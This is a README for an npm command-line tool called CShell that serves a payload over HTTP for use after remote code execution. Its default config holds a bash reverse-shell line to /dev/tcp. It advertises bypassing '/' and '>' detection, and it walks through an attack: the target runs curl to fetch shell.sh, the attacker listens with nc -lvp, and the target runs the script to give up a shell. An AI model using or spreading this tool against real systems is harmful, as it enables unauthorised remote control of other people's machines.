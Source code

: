 # CShell

This program could attach the file to the root path of the HTTP server.

## Superiority

- Bypass `/` and `>` detection and bounce the shell
- Use-friendly and highly customized cli tool

## Usage

### Quick Start

Run

```bash
npm i -g cshell
```

Use

```bash
cshell
```

For more help, please try `cshell --help`.

### From Source Code

Enter the source code directory. Install the dependencies.

```bash
npm ci
```

Install the cli tool globally.

```bash
npm link
```

Then you can directly use it on console every where. Try:

```bash
cshell
```

For more help, please try `cshell --help`.

### Configuration

It is recommended to initialize the config by running following command.

```bash
cshell-conf <path>
```

`<path>` refers to the config. Each KV is optional, and it will fallback to the default value.

Default config file is as followings.

```js
{
    // http server to visit
    "server-host": "127.0.0.1",
    "server-port": 54180,
    // master controller
    "shell-host": "127.0.0.1",
    "shell-port": 54188,
    // static directory
    "static": "",
    // file path whose content is attached
    "file": "",
    // content type of the file
    "content-type": "text/plain",
    // which content if file is not specified
    "default-file-content": "bash -i &> /dev/tcp/${{ env.shell_host }}/${{ env.shell_port }} 0>&1"
}
```

Note that `${{ something }}` in the file content will be replaced to corresponding values. Specially, `env` has following sub-values:

- `server_host`
- `server_port`
- `shell_port`
- `shell_port`

## Example

Run

```bash
cshell --host 12.34.56.78 --port 2020
```

Show

```plain
Server is running at port 2020...

- Try curl -o shell.sh 12.34.56.78:2020 on the target machine.
- Try nc -lvp 2020 on the master controller (12.34.56.78).

DO NOT forget to quit this process!!!
```

On the target machine to attack, run `curl -o shell.sh 12.34.56.78:2020` via RCE. On console displays `GET / FROM xx.xx.xx.xx`.

Then we press `Ctrl`+`C` to quit the program and run `nc -lvp 2020` on the master controller.

Attack the target machine by running `bash shell.sh` via RCE and we get the shell on the master controller.

## License

[MIT](https://mit-license.org)
